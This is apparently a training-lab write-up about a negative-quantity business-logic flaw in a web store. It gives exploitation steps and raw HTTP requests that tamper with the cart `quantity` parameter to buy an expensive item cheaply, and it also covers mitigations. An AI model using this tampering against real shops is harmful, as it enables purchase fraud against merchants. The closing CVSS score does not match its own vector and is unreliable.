





# **Description**

The application implements an e-commerce functionality that allows users to purchase items from a store. Users have a store credit balance that determines what they can afford. When a user adds an item to their shopping cart, the application sends a request containing the item's quantity to the server.

However, the application places excessive trust in client-side controls by accepting the quantity value directly from the client without proper server-side validation. The quantity parameter is sent as part of the request and is not validated to ensure it is a positive integer.

This allows an attacker to manipulate the quantity of any item by intercepting the request and changing the quantity parameter to a negative value. By setting the quantity to a negative number, the attacker can reduce the total cart price to a negative amount. This can be combined with adding expensive items to the cart to effectively purchase them for free or even receive store credit.

# **Steps to Exploit**

1. Log in to your account (`wiener:peter`) using Burp Suite's browser.
2. Navigate to the store and add a cheap item to your cart (e.g., a $10 item).
3. In Burp Suite, go to **Proxy > HTTP history** and locate the `POST /cart` request made when adding the item. Notice the `quantity` parameter.
4. Turn on interception in Burp Suite.
5. Add another item to your cart and intercept the `POST /cart` request.
6. Change the `quantity` parameter to an arbitrary positive integer (e.g., `5`) and forward the request. Observe that the quantity is updated in the cart.
7. Repeat the process, but this time request a negative quantity (e.g., `-5`). Observe that this deducts items from the cart.
8. Request a negative quantity larger than the current cart quantity (e.g., if you have 1 item, add `-2`). This forces the cart to contain a negative quantity of the product.
9. Go to your cart and notice that the total price is now negative.
10. Add the "Lightweight l33t leather jacket" to your cart as normal.
11. Add a suitable negative quantity of the cheap item to reduce the total price to less than your available store credit.
12. Complete the order to purchase the jacket.
13. The lab is solved when you successfully buy the "Lightweight l33t leather jacket".

# **Proof of Concept**

**Step 1 – Add cheap item to cart (original request):**
```
POST /cart HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
Content-Type: application/x-www-form-urlencoded

productId=2&quantity=1
```

**Step 2 – Intercept and modify quantity to positive value:**
```
POST /cart HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
Content-Type: application/x-www-form-urlencoded

productId=2&quantity=5
```

**Step 3 – Modify quantity to negative value:**
```
POST /cart HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
Content-Type: application/x-www-form-urlencoded

productId=2&quantity=-5
```

**Step 4 – Remove more items than exist (create negative quantity):**
```
POST /cart HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
Content-Type: application/x-www-form-urlencoded

productId=2&quantity=-10
```

**Step 5 – Add expensive jacket to cart:**
```
POST /cart HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
Content-Type: application/x-www-form-urlencoded

productId=1&quantity=1
```

**Step 6 – Checkout and complete order:**
```
POST /cart/checkout HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
```














# **Impact**

The exploitation of negative quantities has severe security and business implications:

**Financial Fraud:**
- Attackers can manipulate cart totals to negative amounts.
- This allows purchasing expensive items for free or even receiving store credit.

**Inventory Manipulation:**
- Attackers can manipulate item quantities in unpredictable ways.
- This can lead to inventory management issues and stock discrepancies.

**Business Logic Exploitation:**
- The underlying business logic is completely undermined.
- The intended pricing and inventory mechanisms can be bypassed.

**Revenue Loss:**
- Each fraudulent transaction represents a direct loss of revenue.
- Over time, this can severely impact the business's profitability.

**System Instability:**
- Negative quantities may cause unexpected behavior in other parts of the system.
- This can lead to errors, crashes, or further vulnerabilities.

**Reputational Damage:**
- Customers who discover this vulnerability may lose trust in the platform.
- The business may be perceived as insecure or incompetent.

# **Mitigation / Remediation**

1. **Validate All Inputs Server-Side:**
   - Ensure quantity values are positive integers.
   - Reject any negative or non-numeric values.

2. **Implement Business Logic Validation:**
   - Validate that the requested quantity does not exceed available stock.
   - Ensure that the total price cannot be negative.

3. **Never Trust Client-Side Data:**
   - All quantity and price calculations must be performed server-side.
   - Client-supplied values should be treated as untrusted.

4. **Implement Secure Cart Management:**
   - Store cart items with quantities validated server-side.
   - Recalculate totals on the server for each request.

5. **Regular Security Audits:**
   - Conduct regular penetration testing to identify business logic flaws.
   - Review all e-commerce functionality for input validation issues.

# **CVSS Justification**

| Metric | Value | Justification |
|---|---|---|
| Attack Vector | Network | Exploited remotely via standard HTTP requests |
| Attack Complexity | Low | Modifying a parameter requires minimal technical skill |
| Privileges Required | Low | Only requires valid credentials for a standard user |
| User Interaction | None | The exploit works without user interaction |
| Scope | Changed | Attacker can manipulate business logic |
| Confidentiality Impact | Low | No sensitive data is exposed |
| Integrity Impact | High | Financial transactions are manipulated |
| Availability Impact | Low | No impact on system availability |

**CVSS Score: 6.5 (Medium)**

`CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:L`

This medium score reflects the serious financial impact of the vulnerability, which allows attackers to manipulate quantities and purchase items at arbitrary prices, leading to significant financial losses for the business.